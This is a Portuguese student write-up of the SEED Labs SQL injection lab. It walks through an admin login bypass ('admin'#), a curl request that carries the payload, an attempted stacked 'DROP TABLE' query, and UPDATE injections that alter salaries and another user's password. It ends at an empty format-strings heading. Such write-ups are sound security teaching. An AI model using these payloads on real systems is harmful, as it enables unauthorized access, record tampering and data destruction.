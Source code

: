 # Semana 8

## SEED Labs - SQL Injection Lab

### Task 1

Na primeira tarefa, fomos encarregados de apresentar todas as informações para o usuário "Alice". Para alcançar esse objetivo, acessamos o contêiner MySQL utilizando o comando ```docksh c7```. Em seguida, executamos os comandos ```mysql -u root -pdees``` para entrar no MySQL como superusuário e ```sqllab_users``` de forma a selecionar o schema.

Ao analisar o conteúdo do arquivo ```sqllab_users.sql```, identificamos o comando correto para extrair as informações desejadas:

    SELECT * FROM `credential` WHERE Name = "Alice";

Assim obtivemos os dados da Alice:

![image](assets/s8i1.png)

### Task 2

#### Task 2.1

Ao examinar o site fornecido pelo Docker e o arquivo unsafe_home.php, notamos que a consulta apresenta uma vulnerabilidade. Isso ocorre porque o servidor gera dinamicamente o comando SQL usando strings não sanitizadas provenientes da entrada do usuário. Essa prática torna a aplicação suscetível a ataques de injeção de SQL:

    SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password FROM credential WHERE name='$input_uname' and Password='$hashed_pwd'

Aproveitando o fato de que o campo de senha é criptografado, é possível explorar a funcionalidade de pesquisa manipulando apenas o campo de nome de usuário. Ao inserir 'admin'# como entrada, garantimos acesso privilegiado, pois a verificação da chave de acesso se torna irrelevante ao ser comentada. Com isso, o código executado no lado do servidor é modificado da seguinte maneira:

    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name='admin'# and Password=’$hashed_pwd’

Portanto, conforme planejado, conseguimos efetuar login com a conta de administrador, abrindo a possibilidade de obter todos os dados dos usuários no aplicativo:

![image](assets/s8i2.png)

#### Task 2.2

Nesta tarefa, executei um ataque por meio de uma solicitação GET. Para obter todo o código HTML da página, incluindo todas as informações dos usuários, utilizei o seguinte comando malicioso:

    curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="

Como esperado o resultado foi o seguinte:

![image](assets/s8i3.png)

![image](assets/s8i4.png)

#### Task 2.3

Através do SQL, é possível utilizar ```;``` para inserir novos comandos. Ao empregar essa funcionalidade, busquei causar um efeito colateral no servidor. O comando utilizado foi o seguinte:

    admin'; DROP TABLE IF EXISTS admin; #

No entanto, esta operação não foi executada devido a um erro na base de dados. A extensão MySQL utilizada pelo PHP no servidor possui uma salvaguarda que impede a execução de várias consultas simultâneas, o que resultou na impossibilidade de concluir o ataque:

![image](assets/s8i5.png)

### Task 3

#### Task 3.1

Após efetuar o login com uma conta do sistema (username: Alice e password: seedalice), obtivemos acesso a uma página destinada à edição de informações pessoais. Essa página é gerenciada pelo arquivo fornecido ```unsafe_edit_backend.php```, que contém uma consulta construída dinamicamente com strings não sanitizadas provenientes da entrada do usuário. Nosso ataque envolve a manipulação do número de telefone. Utilizando a mesma técnica dos tópicos anteriores, conseguimos criar o seguinte código capaz de manipular o salário do usuário:

    960000000' ,Salary =' 56565656

![image](assets/s8i6.png)

É crucial notar que a aspas simples (') antes do valor do salário é fundamental para concluir a última instrução antes do WHERE. Em última análise, o servidor executou o seguinte código:

    UPDATE credential SET
    nickname= '$input_nickname', 
    email='$input_email', 
    address='$input_address',
    Password='$hashed_pwd',
    PhoneNumber='960000000',Salary='56565656' WHERE ID=$id;

Como esperado o salário foi modificado como o esperado:

![image](assets/s8i7.png)

### Task 3.2

Para alterar o valor do salário de outro usuário, utilizamos uma técnica semelhante à anterior. No entanto, criamos uma cláusula WHERE diferente e comentamos a existente no sistema para evitar interferências na pesquisa:
    
    960000000' ,Salary='0' WHERE Name='Boby'#

![image](assets/s8i8.png)

Com esta entrada, o servidor executou o seguinte código:

    UPDATE credential SET
    nickname= '$input_nickname', 
    email='$input_email', 
    address= '$input_address', 
    Password='$hashed_pwd',
    PhoneNumber='960000000', Salary='0' WHERE Name= 'Boby'# WHERE ID=$id;

Aqui podemos observar o valor de salário de Boby após o ataque:

![image](assets/s8i9.png)

#### Task 3.3

Para modificar a senha de outro usuário, aplicamos uma abordagem semelhante à anterior. No entanto, desta vez, o valor a ser alterado foi previamente criptografado com SHA1. Por exemplo, para a nova senha "segurança", o hash correspondente é 5a5f1484546b0f83f9e9166d6222e2e9743c037d.

    960000000', password='5a5f1484546b0f83f9e9166d6222e2e9743c037d' WHERE name='Boby'#

![image](assets/s8i10.png)

Com esta entrada, o servidor executou o seguinte código:

    UPDATE credential SET|
    nickname='$input_nickname', 
    email='$input_email', 
    address='$input_address', 
    Password='$hashed_pwd',
    PhoneNumber='960000000', password='5a5f1484546b0f83f9e9166d6222e2e9743c037d' WHERE name='Boby'# WHERE ID=$id;

Assim, ao utilizarmos a nova senha para Boby, conseguimos entrar na conta dele:

![image](assets/s8i11.png)

## CTF - Format Strings